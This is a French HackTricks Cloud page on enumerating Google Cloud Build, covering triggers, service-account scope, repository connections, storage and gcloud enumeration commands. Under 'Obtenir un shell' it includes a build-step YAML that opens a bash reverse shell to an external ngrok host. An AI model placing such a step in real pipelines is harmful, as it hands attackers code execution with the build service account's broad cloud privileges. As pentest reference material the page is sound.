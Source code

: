 # GCP - Enumération de Cloud Build

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>

## Informations de base

Google Cloud Build est une plateforme CI/CD gérée qui **automatise la construction de logiciels** et les processus de publication, s'intégrant aux **dépôts de code source** et prenant en charge une large gamme de langages de programmation. Il **permet aux développeurs de construire, tester et déployer du code automatiquement** tout en offrant la flexibilité de personnaliser les étapes de construction et les flux de travail.

Chaque Déclencheur Cloud Build est **lié à un Dépôt Cloud ou connecté directement à un dépôt externe** (Github, Bitbucket et Gitlab).

{% hint style="success" %}
Je n'ai pas trouvé de moyen de voler le jeton Github/Bitbucket à partir d'ici ou des Dépôts Cloud car lorsque le dépôt est téléchargé, il est accédé via une URL [https://source.cloud.google.com/](https://source.cloud.google.com/) et Github n'est pas accessible par le client.
{% endhint %}

### Événements

Le Cloud Build peut être déclenché si :

* **Pousser vers une branche** : Spécifiez la branche
* **Pousser une nouvelle étiquette** : Spécifiez l'étiquette
* **Demande de tirage** : Spécifiez la branche qui reçoit la PR
* **Invocation manuelle**
* **Message Pub/Sub** : Spécifiez le sujet
* **Événement de webhook** : Exposera une URL HTTPS et la requête doit être authentifiée avec un secret

### Exécution

Il y a 3 options :

* Un yaml/json **spécifiant les commandes** à exécuter. Généralement : `/cloudbuild.yaml`
* Un seul qui peut être spécifié "en ligne" dans la console web et dans l'interface en ligne de commande
* Option la plus courante
* Pertinent pour un accès non authentifié
* Un **Dockerfile** à construire
* Un **Buildpack** à construire

### Autorisations SA

Le **Compte de service a la portée `cloud-platform`**, il peut donc **utiliser tous les privilèges.** Si **aucun SA n'est spécifié** (comme lors de la soumission), le **SA par défaut** `<num-projet>@cloudbuild.gserviceaccount.com` sera **utilisé.**

Par défaut, aucune autorisation n'est donnée mais il est assez facile d'en donner :

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Approbations

Il est possible de configurer un Cloud Build pour **exiger des approbations pour les exécutions de construction** (désactivé par défaut).

### Connexions & Dépôts

Les connexions peuvent être créées via :

* **GitHub :** Il affichera une invite OAuth demandant des autorisations pour **obtenir un jeton Github** qui sera stocké dans le **Gestionnaire de secrets.**
* **GitHub Enterprise :** Il demandera d'installer une **GithubApp**. Un **jeton d'authentification** de votre hôte GitHub Enterprise sera créé et stocké dans ce projet en tant que secret du **Gestionnaire de secrets.**
* **GitLab / Enterprise :** Vous devez **fournir le jeton d'accès API et le jeton d'accès API de lecture** qui seront stockés dans le **Gestionnaire de secrets.**

Une fois une connexion générée, vous pouvez l'utiliser pour **lier les dépôts auxquels le compte Github a accès**.

Cette option est disponible via le bouton :

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Notez que les dépôts connectés avec cette méthode ne sont **disponibles que dans les Déclencheurs utilisant la 2e génération.**
{% endhint %}

### Connecter un Dépôt

Ce n'est pas la même chose qu'une **`connexion`**. Cela permet **différentes** façons d'**accéder à un dépôt Github ou Bitbucket** mais **ne génère pas un objet de connexion, mais génère un objet de dépôt (de 1re génération).**

Cette option est disponible via le bouton :

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Stockage

Parfois, Cloud Build **générera un nouveau stockage pour stocker les fichiers du déclencheur**. Cela se produit par exemple dans l'exemple que GCP propose avec :
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
Un bucket de stockage appelé [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) est créé pour stocker un fichier `.tgz` avec les fichiers à utiliser.

### Obtenir un shell
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### Énumération

Vous pourriez trouver **des informations sensibles dans les configurations de construction et les journaux**.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### Élévation de privilèges

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### Accès non authentifié

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### Post-exploitation

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert en équipe rouge AWS de HackTricks)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFT**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
